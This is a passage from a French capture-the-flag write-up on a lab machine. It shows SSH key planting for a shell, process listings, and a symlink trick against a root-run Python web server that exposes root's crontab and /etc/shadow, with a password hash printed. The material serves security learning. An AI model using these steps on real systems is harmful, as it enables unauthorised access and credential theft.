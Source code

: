 Il ne faudra pas longtemps pour créer le dossier *.ssh* et y déposer un fichier *authorized\_keys*.  

Une particularité sur ce CTF est que selon le chemin employé (via le webshell ou via SMB) le dossier */tmp* contient un contenu différent. Vraisemblablement une réglage de systemd que j'ai déjà croisé par le passé.  

On obtient alors notre shell pour l'utilisateur *jarves* membre des groupes sudo et lxd.  

```plain
uid=1000(jarves) gid=1000(jarves) groups=1000(jarves),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
```

On ne dispose pas du mot de passe de l'utilisateur et ce dernier n'est pas présent dans la base MySQL locale ou ailleurs sur le système.  

*LinPEAS* indique que le système est peut être vulnérable à la faille sudo *Baron Samedit* mais l'exploit me dit explicitement que la version est patchée.  

On remarque que certains process sont lancés via le démon CRON :  

```plain
root         838  0.0  0.0   6884  3116 ?        Ss   08:50   0:00 /usr/sbin/cron -f -P
root        1168  0.0  0.0   8412  3500 ?        S    08:51   0:00  _ /usr/sbin/CRON -f -P
root        1171  0.0  0.0   2628   780 ?        Ss   08:51   0:00  |   _ /bin/sh -c bash /root/service
root        1175  0.0  0.0   7124  3372 ?        S    08:51   0:00  |       _ bash /root/service
root        1178  0.0  0.5 714868 20432 ?        S    08:51   0:05  |           _ python3 -m http.server -d /home/jarves 10123
root        8867  0.0  0.0   8412  3588 ?        S    11:45   0:00  _ /usr/sbin/CRON -f -P
root        8871  0.0  0.0   2628   780 ?        Ss   11:45   0:00      _ /bin/sh -c /usr/bin/python3  /usr/lib/hackerctf/sigma32.py
root        8874  0.1  0.2  16280  9196 ?        S    11:45   0:00          _ /usr/bin/python3 /usr/lib/hackerctf/sigma32.py
```

Détail amusant, le serveur web de Python est exécuté en root et livre un dossier sur lequel on a le contrôle. C'est l'occasion de tester un petit lien symbolique histoire de voir si Python le suit.  

```bash
$ ln -s / disk
```

Et effectivement c'est le cas !  

Je peux par exemple lire la contab de root à l'adresse *http://192.168.101.128:10123/disk/var/spool/cron/crontabs/root* :  

```plain
# m h  dom mon dow   command
*2/ *   * * *   /usr/bin/python3  /usr/lib/hackerctf/sigma32.py
*1/ *   * * *   bash /root/shell
*1/ *   * * *   bash /root/service
```

J'ai aussi accès au contenu du fichir */etc/shadow* :  

```plain
jarves:$6$bh9b6tMU.UIAzSq6$m6KFceXgSBAI/lnyIXVJK3t.5MnTRbU8zna08doU0OED53FgvXLo6vIzovX2TdXHPMPMAMtUFIZKAuriKfWCo1:18755:0:99999:7:::
```
